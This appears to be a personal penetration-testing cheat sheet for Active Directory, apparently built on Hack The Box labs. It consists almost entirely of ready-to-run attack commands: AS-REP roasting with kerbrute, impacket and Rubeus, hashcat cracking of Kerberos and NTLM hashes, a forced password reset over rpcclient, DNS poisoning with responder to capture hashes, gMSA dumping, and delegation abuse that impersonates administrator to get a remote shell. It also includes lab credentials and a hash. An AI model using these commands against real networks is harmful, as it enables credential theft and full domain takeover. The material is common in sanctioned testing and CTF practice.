 ## We got Users but no Pass?

### Links

- [GitHub Rubeus](https://github.com/GhostPack/Rubeus)
### ASREP Roasting Attack

### Check for valid usernames

```
/opt/kerbrute userenum --dc $ip -d intelligence.htb users

then do this

GetNPUsers.py -no-pass -dc-ip $ip intelligence.htb/Jose.Williams
```

```
impacket-GetNPUsers htb.local/ -usersfile user.txt -format hashcat -outputfile hashes.domain.txt

or this:

for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done



.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
```

```

impacket-GetNPUsers -dc-ip 192.168.205.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

cd C:\Tools
.\Rubeus.exe asreproast /nowrap

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


### Password Reset over RPC

https://room362.com/posts/2017/reset-ad-user-password-with-linux/

```
Log into Rpc with the user who can change password of other user:

rpcclient $> setuserinfo2

rpcclient $> setuserinfo2 audit2020 23 'Bwiz123!!!'

```

### Yet another way to get that Hash

```
From intelligence htb, we can use dnstool.py and responder to grab a hash, maybe.

python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r webfakedomain.intelligence.htb --data attackerip victimip


Then, boom:

responder -I tun0 -A

Then, just crack it:

hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt

python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb

rdate -n $ip

getST.py -dc-ip $ip -spn www/dc.intelligence.htb -hashes :486b1ed2229329984333a964b71045e9 -impersonate administrator intelligence.htb/svc_int


KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb

Boom, Shell!

```